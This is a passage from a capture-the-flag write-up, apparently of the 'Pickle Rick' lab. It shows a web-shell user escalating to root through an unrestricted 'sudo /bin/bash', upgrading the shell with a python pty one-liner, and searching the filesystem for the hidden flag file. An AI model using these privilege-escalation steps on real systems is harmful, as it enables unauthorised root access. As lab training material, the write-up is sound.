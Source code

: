 
Would you look at that the current user has privilege to run any command with sudo, so I simply run sudo /bin/bash giving me a root shell! This is a huge finding as it gives us an easy path to privilege escalation. It is extremely dangerous to give users this level of sudo privileges, even very minimal sudo privileges can be exploited to gain root access (link to a list of binaries that can be used to bypass local security restrictions in misconfigured systems https://gtfobins.github.io/#+sudo). I will say even for a beginner CTF, this sudo configuration is very unrealistic.

```
www-data@ip-10-10-111-28:/var/www/html$ sudo /bin/bash
sudo /bin/bash
whoami
root
```


Next its flag finding time, however before we get to that, I quickly make the terminal slightly more interactive via python (running which python3 before doing so just to make sure its actually installed). I didn't go the full way as I didn't think that any text editors etc would be needed, however if you are interested you can check out https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ .

```
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ip-10-10-111-28:/var/www/html#
```


So where could these flags be? First off I checked /var/www/html as there were those pages that got redirected to denied.php to see if there was anything interesting there.

```
root@ip-10-10-111-28:/var/www/html# ls
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
root@ip-10-10-111-28:/var/www/html# ls assets
ls assets
bootstrap.min.css  fail.gif       picklerick.gif  rickandmorty.jpeg
bootstrap.min.js   jquery.min.js  portal.jpg

```


Nothing there, so next I decide to just find all txt files and directories on the machine and grep the output with a small wordlist of possible names.

```
find / -type d -o -type f -name "*.txt" 2>/dev/null | grep -iE "(3rd|2nd|third|second|potions|ingredients)"
```

```
root@ip-10-10-111-28:/var/www# find / -type d -o -type f -name "*.txt" 2>/dev/null | grep -iE "(3rd|2nd|third|second|potions|ingredients)"
<ep -iE "(3rd|2nd|third|second|potions|ingredients)"
/root/3rd.txt
/usr/src/linux-headers-5.4.0-1103-aws/include/config/secondary
/usr/src/linux-headers-5.4.0-1103-aws/include/config/secondary/trusted
/usr/src/linux-aws-5.15-headers-5.15.0-1064/arch/sh/boards/mach-sh7763rdp
/usr/src/linux-aws-headers-5.4.0-1103/arch/sh/boards/mach-sh7763rdp
root@ip-10-10-111-28:/var/www# cat /root/3rd.txt
cat /root/3rd.txt
3rd ingredients: xxxxxxxxxx - flag hidden from writeup
```
